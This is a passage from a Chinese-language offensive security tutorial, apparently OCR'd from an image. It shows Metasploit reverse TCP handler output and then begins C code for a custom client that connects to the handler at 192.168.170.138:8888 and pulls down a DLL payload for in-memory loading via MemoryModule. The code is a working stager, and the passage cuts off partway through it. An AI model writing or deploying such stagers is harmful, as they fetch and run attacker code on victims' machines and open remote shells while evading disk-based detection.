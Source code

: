 ```
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.170.138:8888 
msf5 exploit(multi/handler) > 
```



此时就需要来撸码了，实现一个客户端，去Msf上获取DLL：

```c
#include <WinSock2.h>
#include <Windows.h>
#include <stdio.h>
#include "MemoryModule.h"
#pragma comment(lib,"ws2_32.lib")

#define PAYLOAD_SIZE 1024*512
typedef BOOL (*Module)(HMODULE hModule, DWORD ul_reason_for_call , LPVOID lpReserved);

typedef VOID (*msg)(VOID);
PBYTE bFileBuffer = NULL;


BOOL GetPEDLL(){
	
	DWORD dwError;
	WORD sockVersion = MAKEWORD(2, 2);
	WSADATA wsaData;
	SOCKET socks;
	SHORT sListenPort = 8888;
	struct sockaddr_in sin;

	if (WSAStartup(sockVersion, &wsaData) != 0)
	{
		dwError = GetLastError();
		printf("[*]WSAStarup Error : %d \n",dwError);
		return FALSE;
	}
	
	socks = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

	if (socks == INVALID_SOCKET)
	{
		dwError = GetLastError();
		printf("[*]Socket Error : %d \n",dwError);
		return FALSE;
	}

	sin.sin_family = AF_INET;
	sin.sin_port = htons(sListenPort);
	sin.sin_addr.S_un.S_addr = inet_addr("192.168.170.138");

	if(connect(socks,(struct sockaddr *)&sin,sizeof(sin)) == SOCKET_ERROR )
	{
		dwError = GetLastError();
		printf("[*]Bind Error : %d \n",dwError);
		return FALSE;
	}
	
	int ret = 0;
	ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
	ret = recv(socks,(PCHAR)bFileBuffer,2650,NULL);
	ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
	ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
```
